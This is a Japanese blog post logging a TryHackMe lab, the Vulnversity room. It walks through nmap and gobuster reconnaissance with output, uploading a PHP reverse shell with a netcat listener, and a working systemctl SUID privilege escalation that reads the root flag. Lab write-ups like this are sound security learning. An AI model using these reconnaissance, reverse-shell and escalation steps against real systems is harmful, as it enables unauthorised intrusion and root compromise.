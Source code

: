 ```yaml
---
layout: post
title:  "Tryhackme log"
date:   2021-12-06 00:00:00 +0900
categories: blog
tags:
  - Security testing
---
```


# Room: Learning Cyber Security

- Web セキュリティ
  - Webがどのように機能するか理解することが重要である理由
- ネットワークセキュリティ


# Room: Vulnversity

## Reconnaissance
* 進行する前に、常に徹底的に偵察を行っていることを確認することが重要です。 開いているすべてのサービス（すべてが悪用される可能性がある）を知ることは非常に重要です。
* nmap コマンドを使う
  * 空いているポートがわかる
  * サービスからサーバの用途がわかる
  * OSまでわかる

  ```bash
  nmap -sV x.x.x.x
  Nmap scan report for x.x.x.x
  Host is up (0.29s latency).
  Not shown: 994 closed tcp ports (conn-refused)
  PORT     STATE SERVICE     VERSION
  21/tcp   open  ftp         vsftpd 3.0.3
  22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
  139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  3128/tcp open  http-proxy  Squid http proxy 3.5.12
  3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
  Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 102.13 seconds
  ```

## Locating directories using GoBuster

* ブルートフォースツールでシェルのアップロードに使えるディレクトリ（パス）を見つけてみる
* Golangの更新（https://golang.org/doc/install)go install github.com/OJ/gobuster/v3@latest
* gobusterのインストール
  ```bash
  go install github.com/OJ/gobuster/v3@latest
  ```
* wordlistを用意

  https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txtを利用
  ```bash
  curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt -s > wordlist.txt
  ```
* gobuster実行
  ```bash
  ~/go/bin/gobuster dir -u http://x.x.x.x:3333 -w wordlist.txt
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://x.x.x.x:3333
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                wordlist.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    /.htaccess            (Status: 403) [Size: 299]
    /.htpasswd            (Status: 403) [Size: 299]
    /.hta                 (Status: 403) [Size: 294]
    /css                  (Status: 301) [Size: 319] [--> http://x.x.x.x:3333/css/]
    /fonts                (Status: 301) [Size: 321] [--> http://x.x.x.x:3333/fonts/]
    /images               (Status: 301) [Size: 322] [--> http://x.x.x.x:3333/images/]
    /index.html           (Status: 200) [Size: 33014]
    /internal             (Status: 301) [Size: 324] [--> http://x.x.x.x:3333/internal/]
    /js                   (Status: 301) [Size: 318] [--> http://x.x.x.x:3333/js/]
    ===============================================================
  ```
- /internalを見てみるとファイルアップロードできるページ

## Compromise the webserver


- Burp Suiteの初期設定
  - https://bmf-tech.com/posts/GoogleChrome%E3%81%A7Burp%20Suite%E3%82%92%E4%BD%BF%E3%81%86%E6%89%8B%E9%A0%86

- php-reverse-shell.phtml
  - VPNつないでとあるIPにつなぐことで tun0 ipを確認し、ファイルを修正
  - https://access.redhat.com/documentation/ja-jp/red_hat_enterprise_linux/8/html/configuring_and_managing_networking/configuring-ip-tunnels_configuring-and-managing-networking

- Reverse shell の確認方法
  ```nc -l 1234 -n```


## Privilege Escalation

- SUIDが設定されているファイル
  ```
  $ find / -perm -4000
  ```

- SUIDとは
  - 参考：[【初心者でもすぐわかる】SUIDとは？と設定方法](https://eng-entrance.com/linux-permission-suid)
  - Set User ID
    - 誰がそのファイルを実行してもセットされたユーザで実行される状態
  - 例えば、passwdコマンドなどは所有者がrootになっておりSUIDが指定されている。この場合どのユーザがpasswdコマンドを実行しても必ずrootユーザが実行した状態となる。
  - sフラグは実行権限のSUID
    ```
    ls -ls /bin/systemctl
    648 -rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
    ```

- 挑戦メモ
  - Unitファイルの指定ができる引数を使って独自のユニットを使えそう
    - Unitファイル作成の参考：[systemdを用いたプログラムの自動起動 - Qiita](https://qiita.com/tkato/items/6a227e7c2c2bde19521c)
    ```
    systemctl -h
     --root=PATH      Enable unit files in the specified root directory

    cat << EOS >> /tmp/esca.service
    [Unit]
    Description = hello daemon

    [Service]
    ExecStart = /tmp/esca.sh
    Restart = always
    Type = simple

    [Install]
    WantedBy = multi-user.target
    EOS

    echo "cat /root/root.txt" > /tmp/esca.sh
    chmod a+x /tmp/esca.sh

    systemctl enable esca --root=/tmp/
    # -> サービスが見つかりません

    # サービス一覧
    systemctl list-unit-files --type=service
    ```



- 断念。。。-> [Writeup](https://tryhackme.com/resources/blog/vulnversity)
  ```
  priv=$(mktemp).service
  echo '[Service]
  ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
  [Install]
  WantedBy=multi-user.target' > $priv

  /bin/systemctl link $priv
  Created symlink from /etc/systemd/system/tmp.u3BsWfqNDN.service to /tmp/tmp.u3BsWfqNDN.service.
  /bin/systemctl enable --now $priv
  Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.u3BsWfqNDN.service to /tmp/tmp.u3BsWfqNDN.service.

  cat /opt/flag
  ```
- 学び
  - `mktemp` コマンド
    - /tmp/tmp.oSoIUcUO のようなファイルを作成する
  - `systemctl` のオプション
    - ```link + ABSOLUTE PATH```
      - /etc/systemd/system/以下にシンボリックリンクを作成する
      - /etc/systemd/system 以下への書き込み権限がなくてもユニットを追加できる
    - `enable --now`
      - 自動起動有効化と起動を同時にできる
  - [GTFOBins](https://gtfobins.github.io/)